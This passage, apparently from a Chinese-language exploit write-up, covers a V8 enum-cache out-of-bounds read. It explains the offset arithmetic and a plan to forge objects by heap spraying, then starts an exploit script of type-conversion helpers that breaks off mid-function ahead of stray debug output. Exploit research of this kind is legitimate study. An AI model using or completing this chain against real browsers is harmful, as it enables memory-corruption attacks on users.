   
这里是一个越界，因为原本的obj1对应的enum cache的size就是1，所以这里二就已经是越界了，取出了一个0x6a5的值，这就对应着新的idx的值，然后越界出了0x6a5，因为是smi，所以会右移1位，也就是/2。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8Gj6Rxl7nPIbK1EcmQIoBmyh5jC7eREZGMV8ymibjqn4X1LmM1rBnMyYasDazyQ8BEEGibywTP7e8Zw/640?wx_fmt=png&from=appmsg "")  
  
  
这里在取值，也就是说，通过这个map去向后索引这么多[r8 + r12*2 + 0xb]，结合前面的/2，其实也就是obj2的map+0x6a4+0x8，这个的结果是让这个地址成为一个对象。  
  
  
所以利用思路也就出来了，这里设obj2的地址为A，这里使得A+0x6a5+0x8的值落在一个可控的范围内，其实不难想到伪造对象，因为他是解引，所以这里需要伪造一个被指向的地址的区域是一个obj，稳定可控的话，可以想到适用通用对象的堆喷  
  
这里的思路借鉴了@XiaozaYa师傅，非常巧妙，且成功率高。  
  
  
调试的时候遇到一些问题  
  
  
1.debug和release版本的堆布局不一样，而且差距会很大  
  
2.TurboFan优化之后，堆布局会发生变化  
  
  
需要通过调整对象的分配大小，最后才能成功触发poc，并得到fakeobj。  
# exp  
  
```
var buf = new ArrayBuffer(8);
var f32 = new Float32Array(buf);
var f64 = new Float64Array(buf);
var u8 = new Uint8Array(buf);
var u16 = new Uint16Array(buf);
var u32 = new Uint32Array(buf);
var u64 = new BigUint64Array(buf);

function stop(){
    %SystemBreak();
}
    
function p(arg){
    %DebugPrint(arg);
}

function spin(){
    while(1){};
}

function lh_u32_to_f64(l,h){
    u32[0] = l;
    u32[1] = h;
    return f64[0];
}

function f64_to_u32l(val){
    f64[0] = val;
    return u32[0];
}

function f64_to_u32h(val){
    f64[0] = val;
    return u32[1];
}


function f64_to_u64(val){
    f64[0] = val;
    return u64[0];
```

  [0]: 0x224300002a21: [String] in ReadOnlySpace: #a (const data field 0:s, p: 2, attrs: [WEC]) @ Any
  [1]: 0x224300002a31: [String] in ReadOnlySpace: #b (const data field 1:s, p: 1, attrs: [WEC]) @ Any
  [2]: 0x224300002a41: [String] in ReadOnlySpace: #c (const data field 2:s, p: 0, attrs: [WEC]) @ Any